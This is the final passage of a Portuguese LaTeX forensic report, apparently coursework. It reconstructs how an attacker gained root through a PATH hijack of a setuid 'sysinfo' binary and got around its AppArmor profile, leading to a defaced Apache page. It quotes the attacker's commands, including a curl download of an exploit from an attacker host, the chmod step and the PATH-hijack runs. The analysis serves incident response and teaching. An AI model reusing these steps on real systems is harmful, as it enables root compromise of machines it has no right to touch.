    
\includegraphics[width=250]{images/decompiled_sysinfo.png}
    \caption{Função \textit{main} do código original do programa \textit{sysinfo}}
\end{figure}

\par Olhando para o código original, é possível perceber que para além de diversas informações apresentadas na consola relativas às informações do sistema, o programa executa o ficheiro \textit{lscpi} que, devido à permissão com valor 4000, é executado com permissões máximas. Através desta descoberta, o atacante, desde que conseguisse substituir o código do ficheiro \textit{lscpi}, conseguiria realizar as tarefas que pretendesse com as permissões máximas do sistema. E foi com isto em mente que o atacante realizou o próximo comando, recorrendo a \textit{curl http://192.168.1.118:8080/exploit --output /tmp/lspci} realizou \textit{download} de um ficheiro que através do nome, percebe-se que servirá para explorar este escalonamento de permissões.

\par Visto que o ficheiro recebido pelo servidor também se encontrava em binário, voltou-se a recorrer ao \textit{Ghidra} para descompilar o mesmo:

\begin{figure}[h]
    \centering
    
\includegraphics[width=250]{images/decompiled_exploit.png}
    \caption{Função \textit{main} do código original do programa \textit{exploit} do atacante}
\end{figure}

\par Como é possível verificar, o \textit{exploit} visa executar como \textit{root} ao colocar o utilizador do processo como o utilizador com \textit{id} 0, o \textit{root}, através de \textit{seteuid(0)} e fazer \textit{download} de um ficheiro \textit{index.html} presente no servidor do atacante, colocando-o posteriormente na pasta de disponibilização de acesso por parte do servidor de \textit{Apache} da máquina vítima com o nome \textit{index\_pwn.html}. 

\clearpage

\par Apesar de todo o comprometimento que este \textit{exploit} poderia vir a trazer, o atacante cingiu-se a transferir um ficheiro \textit{html} que para demonstrar que a máquina é totalmente vulnerável, sem nenhum efeito muito negativo, apesar de todo o acesso possível:

\begin{figure}[h]
    \centering
    
\includegraphics[width=250]{images/pwn.png}
    \caption{Página do \textit{index\_pwn.html}}
\end{figure}

\par Dito isto, para ser possível executar este \textit{exploit}, o atacante primeiro teve de executar o comando \textit{chmod 555 /tmp/lspci} de modo a fornecer permissões para que o ficheiro não seja modificado por ninguém, com exceção do \textit{root}, sendo permitida a sua execução.

\par Para testar o seu funcionamento, o atacante coloca o \textit{PATH} do sistema como \textit{/tmp:/bin:/sbin} de modo a procurar os programas a serem executados primeiro na pasta \textit{/tmp} para o \textit{sysinfo} executar o \textit{exploit} lá presente e executa o próprio \textit{sysinfo} redireccionando a \textit{stream} de erro para a \textit{stream} normal de \textit{output}, de modo a conseguir detetar algum erro, caso exista, uma vez que a vulnerabilidade está apenas a escutar a \textit{stream} normal da \textit{shell}, através do comando \textit{PATH=/tmp:/bin:/sbin /usr/sbin/sysinfo 2>&1}. 

\par Visto que o comando não retornou nada, o atacante deve ter assumido que o ataque não foi bem sucedido e decidiu verificar as definições do \textit{AppArmor}. Analisando os \textit{logs} da \textit{kernel} é possível verificar que a execução foi bloqueada:

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{images/kernellog.png}
    \caption{\textit{Logs} da \textit{kernel}}
\end{figure}

\clearpage

\subsection{\textit{AppArmor}}

\par \textit{AppArmor} é um sistema de controlo de acessos construído sobre a interface dos módulos de segurança do \textit{Linux}. Basicamente, sempre que um processo realiza uma operação, o \textit{kernel} do sistema consulta o \textit{AppArmor} para verificar se este processo está autorizado para o fazer. 

\par Cada programa tem regras de controlo de acesso, chamadas de \textit{profile}, aplicadas pela \textit{kernel}, dependendo do caminho de instalação do programa, independentemente do utilizador que está a executá-lo. Todos este perfis estão armazenados em \textit{/etc/apparmor.d/} e contém uma lista das regras de controlo de acesso dos recursos que cada programa pode utilizar.

\par Nos próximos passos, o atacante verifica o conteúdo do diretório \textit{/etc/apparmor.d/} e vê o conteúdo do ficheiro \textit{/etc/apparmor.d/usr.sbin.sysinfo} referente ao perfil do \textit{AppArmor} do programa \textit{/usr/sbin/sysinfo}:


\begin{figure}[h]
    \centering
    
\includegraphics[width=250]{images/apparmor.png}
    \caption{Conteúdo do ficheiro \textit{/etc/apparmor.d/usr.sbin.sysinfo}}
\end{figure}

\par As regras definidas são as seguintes:

\begin{itemize}
    \item \textbf{capability setuid} - Permite ao programa definir o xi do utilizador que vai executar o processo (neste caso utilizado para elevação de permissões para \textit{root})

    \item \textbf{/etc/ld.so.cache} - Permite acesso de leitura a este ficheiro

    \item \textbf{/usr/lib/x86\_64-linux-gnu/lib* mr} - Mapeia os ficheiros em questão para memória e permite o acesso de leitura aos mesmos

    \item \textbf{/usr/bin/dash ix} - Evita a normal execução deste programa, mantendo-o confinado aos controlos de acesso definidos para o programa atual, se este o evocar

    \item \textbf{/usr/bin/* ux} e  \textbf{/usr/local/bin/* ux}- Permite a execução destes programas sem estarem confinados aos controlos de acesso
\end{itemize}

\par A partir da visualização deste ficheiro, o atacante conseguiu verificar que apenas conseguiria realizar este ataque se colocasse o seu \textit{exploit} ou na pasta \textit{/usr/bin/} ou na pasta \textit{/usr/local/bin/} de modo a ser executado sem estar confinado aos controlos de acesso. Visto isto, foi realizado o comando \textit{ls -la /usr/ /usr/local} provavelmente para verificar em qual das duas opções a pasta \textit{bin} tinha permissões de escrita para o utilizador atual, optando pela última opção visto que permitia outros utilizadores além do grupo do criador e do criador da pasta, o \textit{root}, escrever na mesma.

\par Por fim, o atacante copiou o ficheiro para a pasta \textit{/usr/local/bin} através de \textit{cp /tmp/lspci /usr/local/bin} e voltou a executar o programa com o comando \textit{PATH=/usr/local/bin:/bin /usr/sbin/sysinfo 2>&1}, conseguindo executar o \textit{exploit} como \textit{root} e deixando a página inicial do servidor com a mensagem de que o servidor foi atacado.


\clearpage

\section{Conclusão}

\par Para terminar, pensa-se que, de acordo com as metas estabelecidas pelo docente, o trabalho foi bem sucedido. Foi possível detectar as vulnerabilidades que realmente deram total acesso da máquina ao atacante, bem como entender todo o caminho percorrido pelo mesmo e quais as ações evitadas devido às medidas de segurança implementadas.

\par Através de todas estas descobertas, o cliente já terá uma grande ideia do quão vulnerável a sua máquina realmente está e deve implementar o quanto antes medidas para evitar estes ataques, devendo a máquina estar indisponível até lá, tendo em conta a gravidade dos potenciais ataques.

\par Este trabalho focou-se nos problemas mais graves detectados relativamente à segurança do sistema pelo que a explicação de alguns conceitos menos relevantes pode não estar presente.

\clearpage

\section{Bibliografia}

\bibliographystyle{plain}

\bibliography{biblist}

\vspace{5mm} %5mm vertical space

[1] \url{https://httpd.apache.org/docs/2.2/logs.html}

[2] \url{https://docs.docker.com/engine/security/#docker-daemon-attack-surface}

[3] \url{http://manpages.ubuntu.com/manpages/xenial/man5/apparmor.d.5.html}

[4] \url{http://manpages.ubuntu.com/manpages/xenial/man2/setuid.2.html}

[5] \url{https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html}

[6] \url{https://unix.stackexchange.com/questions/199988/how-to-inspect-systemd-journal-files-directly}

[7] \url{https://httpd.apache.org/docs/2.4/}

[8] \url{https://ghidra-sre.org}

\par Para além destas fontes, foram utilizadas ao longo da pesquisa diversas fontes de suporte em relação às diversas tecnologias da máquina. Foram também consultadas muitas fontes não fortemente relacionadas às vulnerabilidades encontradas que ajudaram a entender diversos problemas mas que acabaram por não se guardar.


\end{document}

